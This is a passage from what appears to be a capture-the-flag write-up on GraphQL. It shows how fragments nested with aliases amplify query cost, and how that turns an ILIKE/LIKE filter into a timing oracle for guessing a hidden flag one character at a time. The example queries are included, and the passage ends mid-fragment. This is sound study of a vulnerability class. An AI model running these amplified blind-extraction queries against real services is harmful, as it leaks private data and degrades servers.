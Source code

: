 Response:
```json
{
  "data": {
    "getCharacters": {
      "foo": [],
      "bar": []
    }
  }
}
```

In the query above, for `foo` and `bar` we are writing twice `{ node { notes } }`.  
Fragment allows to write it once, and use the fragment name in the query.  

Sounds complex, but actually look how our query now looks like:
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesIlike: "maple{fal%" }] }
  ) {
    foo: edges {
      ...t
    }
    bar: edges {
      ...t
    }
  }
}

fragment t on CharactersTypeDefEdge {
  node {
    notes
  }
}
```

Now, that might seem innoffensive at first, but we thought:
> What if our fragment contains aliass too?

In the example below, we have 3 edges, each will have 3 nodes so 9 nodes will be display in the end.  
With 50 edges and 50 nodes, that's gonna be 2500 nodes.  
That's quite an amplification, without writing a huge query (we were afraid of URL size limitation, but apparently there was none).

With that amplification, on the server, a correct guess would take more than 3s to load, while an incorrect guess would take about 500-1000ms. The difference is big enough to differentiate those, while taking into account network latency and other randomness.
```graphql
{
  getCharacters(
    filters: { and: [{ name: "Choso" }, { notesLike: "%maple{fa%" }] }
  ) {
    foo: edges {...t2}
    bar: edges {...t2}
    baz: edges {...t2}
  }
}
fragment t on CharactersTypeDef {
  name
  id
  occupation
  cursedTechnique
  imgFile
  notes
  __typename
```